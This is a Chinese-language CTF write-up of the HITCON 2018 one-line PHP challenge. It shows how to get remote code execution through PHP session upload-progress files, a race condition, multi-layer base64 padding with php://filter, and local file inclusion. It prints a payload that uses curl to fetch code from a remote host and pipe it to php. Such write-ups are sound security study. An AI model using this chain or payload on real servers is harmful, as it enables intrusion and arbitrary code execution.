









one-line-php-challenge 复现
源码
环境：This is a default installation PHP7.2 + Apache on Ubuntu 18.04 。

解读
$_GET是一个数组，包含通过URL参数传给当前脚本的变量。如访问localhost?orange=123&foo=bar，则$_GET为array ('orange' => '123','foo' => 'bar',)，$_GET['orange']为'123'。另外，$_GET是超全局变量，即在全部作用域中始终可用的内置变量。@被称为错误控制运算符（Error Control Operators）。当将其放置在一个 PHP 表达式之前，该表达式可能产生的任何错误信息都被忽略掉。例如对于内容为<?php $_=$_GET['orange'];的PHP文件，直接访问其会报错Notice : Undefined index: orange in...，加上@后就不会显示错误信息。- 赋值操作。和C语言中的情况一样，赋值表达式的值就是赋值符号右侧的操作数的值。
The value of an assignment expression is the value assigned。 $_。一个普通的变量名。file()。把整个文件读入数组中。array file ( string $filename [, int $flags = 0 [, resource $context ]] )

string substr ( string $string , int $start [, int $length ] )。- include 语句包含并运行指定文件。
(expr1) ? (expr2) : (expr3)是一个条件运算符，和C语言类似。- 使用orange参数从URL传入一个文件名，如果该文件第一行的前六个字符是
@<?php，就将它包含并运行。 - 相关文档： Assignment Operators , $_GET , Error Control Operators , 三元运算符
关键点
创建文件
allow_url_include 默认值是off ，因此无法包含远程文件。那么如果要包含本地文件，就需要已知的文件名和可控的文件内容。
最主要的利用点在于：如果在上传文件的同时POST PHP_SESSION_UPLOAD_PROGRESS 参数，PHP就会为我们创建session，并且session文件名可以通过cookie中的PHPSESSID控制。
做个实验。
我的环境：PHP7.2 + Apache on Kali 4.18

会发现确实如此。而且不仅如此。
1 | curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=iamnotorange' -F 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking' -F 'file=@/etc/passwd' 1>/dev/null |
我执行了四次请求。第一次是使用multipart传一个文件和一个字符串，可以同时生成session文件并且控制文件名，第二次传两个字符串，只能生成文件，文件名是随机的，第三次只有一个字符串，效果同第二次，第四个直接post一个字符串，无法生成session文件。四次请求的报文形式如下。




但是我们还会发现，无论怎样请求，文件内容总是为空，这是因为 session.upload_progress.cleanup=on ，导致文件一上传完马上被清空。这是我们可以用条件竞争或者传超大文件来保留文件内容。
条件竞争
1 | #loop.py |

可以观察到，文件内容的前一部分是可控的。
超大文件
变换文件内容
到此为止，我们实现了控制文件名和文件内容，但是文件内容的形式是固定的，即以upload_progress_ 开头，而我们期望他是以 @<?php 开头。于是需要变换文件内容，可以利用 php://filter ，比如将文件内容多次base64解码得到我们想要的字符串。
base64解码的特点在于：
- 可以将字符串每四个字符分一组，每组解码后变成三个字符，组与组之间互不影响。
- base64编码后的字符串只会包含
[0-9a-z-A-Z+\=]，如果解码时遇到这些字符之外的就会被忽略，或者说，解码前会先将非法字符删除。
所以实际上
1 | python -c "import base64;print base64.b64decode('\x11\x22\x23\x24'*24+base64.b64encode('test'))" |
的执行结果还是test。
我们只要想办法让upload_progress_ 解码后成为不合法字符从而被忽略就可以了，所以需要加一些垃圾数据。因为 upload_progress_ 有16个字符
1 |
结合利用
将诸如
1 | @<?php `curl remote.ip | php - ;?>` |
的payload三次编码再加上填充数据后作为 PHP_SESSION_UPLOAD_PROGRESS 的值上传，然后利用
php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/var/lib/php/sessions/sess_whatever 包含进来即可执行命令。可采用多线程竞争或者大文件上传保留session文件。
1 | #https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2018/one-line-php-challenge/exp_for_php.py |